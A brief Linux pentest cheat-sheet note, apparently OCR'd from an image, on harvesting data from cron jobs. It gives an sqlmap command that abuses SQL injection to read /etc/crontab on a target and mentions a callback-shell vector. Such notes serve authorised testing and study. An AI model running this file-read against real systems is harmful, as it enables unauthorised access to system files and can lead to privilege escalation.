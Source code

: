# Linux

Search Tag: #sqlmap #enumeration-and-discovery #privilege-escalation

- CronJobs may contain backup files that is worth **harvesting the data**. Moreover, there is a possible attack vector to spawn a callback shell. Be on the lookout.

```
$ sqlmap -u <URL> --random-agent --file-read="/etc/crontab"
```